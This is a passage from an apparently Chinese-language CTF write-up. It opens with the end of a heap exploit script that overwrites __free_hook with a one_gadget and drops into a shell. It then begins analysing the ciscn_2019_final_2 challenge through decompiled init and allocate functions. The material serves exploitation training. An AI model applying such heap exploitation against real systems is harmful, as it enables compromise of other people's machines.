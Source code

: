 ```
payload += p64(0) * 14 + p64(0x90) + '\xa0'
edit(0, payload)

delete(1)

edit(0, p64(0) * 3 + p64(free_hook) + p64(0x10))
edit(0, p64(one_gadget))

delete(2)

io.interactive()
```



## 0x11 ciscn_2019_final_2

在init函数中，程序读取了flag文件，然后将fd文件流改成了666。

```
unsigned __int64 init()
`{`
  int fd; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  fd = open("flag", 0);
  if ( fd == -1 )
  `{`
    puts("no such file :flag");
    exit(-1);
  `}`
  dup2(fd, 666);
  close(fd);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  return __readfsqword(0x28u) ^ v2;
`}`
```

分配函数中，我们只能申请两种类型的空间，int和short int，分别分配0x20和0x10的空间，然后分别有一个全局指针指向分配的chunk，以及bool参数用来判断是否分配了chunk。

```
unsigned __int64 allocate()
`{`
  _DWORD *v0; // rbx
  int v2; // [rsp+4h] [rbp-1Ch]
  unsigned __int64 v3; // [rsp+8h] [rbp-18h]

  v3 = __readfsqword(0x28u);
  printf("TYPE:\n1: int\n2: short int\n&gt;");
  v2 = get_atoi();
  if ( v2 == 1 )
  `{`
    int_pt = malloc(0x20uLL);
    if ( !int_pt )
      exit(-1);
    bool = 1;
    printf("your inode number:");
    v0 = int_pt;
    *v0 = get_atoi();
    *((_DWORD *)int_pt + 2) = *(_DWORD *)int_pt;
    puts("add success !");
  `}`
  if ( v2 == 2 )
```